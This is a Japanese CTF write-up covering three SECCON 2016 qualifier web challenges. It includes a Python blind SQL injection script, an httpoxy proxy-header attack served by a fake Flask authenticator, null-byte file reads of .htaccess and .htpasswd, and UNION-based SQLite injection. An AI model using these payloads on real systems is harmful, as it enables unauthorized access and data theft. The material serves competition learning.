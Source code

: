 ```yaml
---
layout: post
title: SECCON 2016 オンライン予選に参加しました
categories: [ctf, seccon]
date: 2016-12-11 16:53:00 +0900
---
```


hiww さん ([@hiww](https://twitter.com/hiww)) のお誘いでチーム [Harekaze](http://harekaze.com/) として SECCON 2016 Online CTF に参加しました。
最終的にチームで 1300 点を獲得し、チーム順位は 61 位 (得点 930 チーム中) でした。

私は Web カテゴリの問題を中心に取り組んで、

- basiq (Web 100)
- pppppoxy (Web 200)
- uncomfortable web (Web 300)

の 3 問を解きました。

チームメンバーの write-up はこちら。

- [@konjo_p](https://twitter.com/konjo_p) さん : [SECCON2016qual 参加記 - 学習の栞](http://konjo-p.hatenablog.com/entry/2016/12/11/204700)
- [@_jptomoya](https://twitter.com/_jptomoya) さん : [SECON 2016 Online CTFに参加していた - 気まぐれ雑記(仮)](http://jptomoya.hatenablog.com/entry/2016/12/12/140136)
- [@hiww](https://twitter.com/hiww) さん : [晴風(Harekaze)でSECCON 2016 Online CTFに参加して轟沈したお話。 - 備忘録的なやつ](http://hiww.hatenablog.com/entry/20161213/harekaze)

以下、私の write-up です。

## basiq (Web 100)
以前見たことがあるような競馬のサービスから admin のパスワードを手に入れる問題でした。

どこから攻めればいいのか分からずだいぶ悩んでいましたが、[@tatarhy](https://twitter.com/tatarhy) さんのコメントで http://basiq.pwn.seccon.jp/admin/ にアクセスすると認証ダイアログが表示されると分かりました。

これは怪しいと思い、試しにユーザ名に `admin`、パスワードに `' or 1;#` と入力するとログインに成功しました。
また、ユーザ名に `admin`、パスワードに `' and 0;#` と入力するとログインに失敗しました。

このことから Blind SQLi ができるのではないかと考え、まず以下のコードで確かに情報を抜けることを確認しました。

```python
import requests
import sys

def check(c):
  return c == 200

url = 'http://basiq.pwn.seccon.jp/admin/'
query = "' and 0 or substr(version(), {}, 1) <= binary 0x{:x};#"

i = 1
res = ''

while True:
  high = 0x7e
  low = -1

  while abs(high - low) > 1:
    mid = (high + low) // 2

    c = requests.get(url, auth=('admin', query.format(i, mid)))

    if check(c.status_code):
      high = mid
    else:
      low = mid

  res += chr(high)
  print(i, res)
  i += 1
```

結果は `5.5.50-MariaDB` でした。

続いてどのようなデータベースがあるか確認するため、`query` を `' and 0 or substr((select group_concat(distinct hex(table_schema)) from information_schema.tables where table_schema != 'information_schema'), {}, 1) <= binary 0x{:x};#` に変え実行しました。`keiba` というデータベースがあると分かりました。

さらに `information_schema.columns` からテーブル名とカラム名を抜き出すと、`id` `name` `pass` というカラムを持つ `☹☺☻` (`\u2639\u263a\u263b`) というテーブルがあると分かりました。

あとは `keiba.☹☺☻` からパスワードを抜き出すだけです。

```
SECCON{Carnival}
```

## pppppoxy (Web 200)
配布された `pppppoxy.exe` という実行ファイルを実行すると、ブラウザで `127.0.0.1:81` が開かれました。`127.0.0.1:81` では Web アプリが動いており、これの認証を突破する問題でした。この問題は Harekaze が first solve でした。

この問題名から思い出されるのは、[httpoxy](https://httpoxy.org/) という脆弱性です。

試しに `python -m SimpleHTTPServer 8000` で待ち受けながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=hoge" -H "Proxy: http://127.0.0.1:8000"` を実行してみました。すると、`GET http://127.0.0.1:81/Authenticator?user=admin HTTP/1.0` という HTTP リクエストが飛んできました。ビンゴです。

`http://127.0.0.1:81/Authenticator?user=admin` にアクセスすると `{"hash":"C432A8174394A3F655B2BD29BB075E4C"}` という JSON が返ってきました。このハッシュは文字数からしておそらく MD5 でしょう。

これを利用して、以下のようなコードを書きました。

```python
from flask import Flask
app = Flask(__name__)

@app.errorhandler(404)
def not_found(e):
    return '{"hash":"21232F297A57A5A743894A0E4A801FC3"}', 404

if __name__ == "__main__":
    app.run(port=8000)
```

これを動かしながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=admin" -H "Proxy: http://127.0.0.1:8000"` を実行するとフラグが出ました。

```
SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}
```

## uncomfortable web (Web 300)
シェルスクリプトやらなんやらを実行できる Web アプリと、その Web アプリからのみアクセスできる Web アプリがあり、前者から後者を攻略する問題でした。

この問題もどこから攻めればいいのかが分からず悩んでいましたが、`curl "http://127.0.0.1:81/select.cgi?txt=a.txt%00"` のように null バイトを入れるとよいと気付いて進捗しました。

`/authed/` 下を見る認証に必要な情報を得るために `http://127.0.0.1:81/select.cgi?txt=.htaccess%00` で `.htaccess` を抜き出しました。

```
AuthUserFile /var/www/html-inner/authed/.htpasswd
AuthGroupFile /dev/null
AuthName "SECCON 2016"
AuthType Basic
Require user keigo
```

認証に使用するユーザ名とパスワードの一覧は `.htpasswd` に格納されているようです。同じように抜き出しました。

```
keigo:LdnoMJCeVy.SE
```

gen さん ([@neglect_yp](https://twitter.com/neglect_yp)) がパスワードは `test` であるとコメントされていたので、得られた情報から `/authed/` 下を見ると以下のような構成になっていました。

```
[TXT]	a.txt	30-Nov-2016 09:59	888	 
[TXT]	b.txt	28-Nov-2016 12:00	78	 
[TXT]	c.txt	30-Nov-2016 10:04	48	 
[DIR]	sqlinj/	28-Nov-2016 11:41	-	 
```

`/authed/sqlinj/` 下は `{1..100}.cgi` という感じで 100 個のファイルがあり、そのいずれかで SQLi が行えるようでした。

HTML のコメントに `<!-- by KeigoYAMAZAKI, 2016.11.25- -->` とあったため、`SQLite` を使用していると考え、以下のコードでどのファイルで SQL インジェクションが行えるか確かめました。

```python
#!/usr/bin/python
import requests
for x in range(1, 101):
  print '[' + str(x) + ']'
  print requests.get('http://127.0.0.1:81/authed/sqlinj/{0}.cgi?no=\'||\'4822267938'.format(x), auth=('keigo', 'test')).content
```

`72.cgi` で SQL インジェクションが行えると分かりました。あとはやるだけです。

`http://127.0.0.1:81/authed/sqlinj/72.cgi?no=4822267939' union select 1, 2, (select group_concat(sql) from sqlite_master) where 1 or '` で `f1ag` というカラムを持つ `f1ags` というテーブルがあると分かります。

`select group_concat(sql) from sqlite_master` を `select group_concat(f1ag) from f1ags` に変えるとフラグが出ました。

```
SECCON{I want to eventually make a CGC web edition... someday...}
```
